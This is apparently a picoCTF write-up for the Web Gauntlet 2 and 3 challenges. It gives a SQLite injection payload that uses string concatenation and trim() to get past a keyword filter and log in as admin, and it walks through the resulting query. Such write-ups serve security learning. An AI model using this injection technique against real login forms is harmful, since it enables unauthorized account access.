


# Web Gauntlet \(170 + 300\)

## Problem

### Web Gauntlet 2

This website looks familiar... Log in as admin 

Site: [http://mercury.picoctf.net:35178/](http://mercury.picoctf.net:35178/) 

Filter: [http://mercury.picoctf.net:35178/filter.php](http://mercury.picoctf.net:35178/filter.php)

### Web Gauntlet 3

Last time, I promise! Only 25 characters this time.

## Solution

### Web Gauntlet 2

Username: `adm' || trim('in',` Password: `) || '`

This will cause the following SQL statement to be executed:

```text
SELECT username, password FROM users WHERE username='adm' || trim('in',' AND password=') || ''
```

Notes:

* `||` is the SQLite concatenation operator.
* `trim(string, character)` will remove `character` from `string`. Here, it is simply for us to ignore the `AND` condition by treating `' AND password='` as a string. Since `' AND password='` does not appear in `'in'`, `trim('in',' AND password=')` will simply return `'in'`.
* The above SQL statement is thus equivalent to: 

```text
SELECT username, password FROM users WHERE username='adm' || 'in' || ''
```

Which is equivalent to:

```text
SELECT username, password FROM users WHERE username='admin'
```

We can now check out the filter page:



### Web Gauntlet 3

The length requirement is down from 35 characters to 25 characters. Our above solution works for this challenge as well!




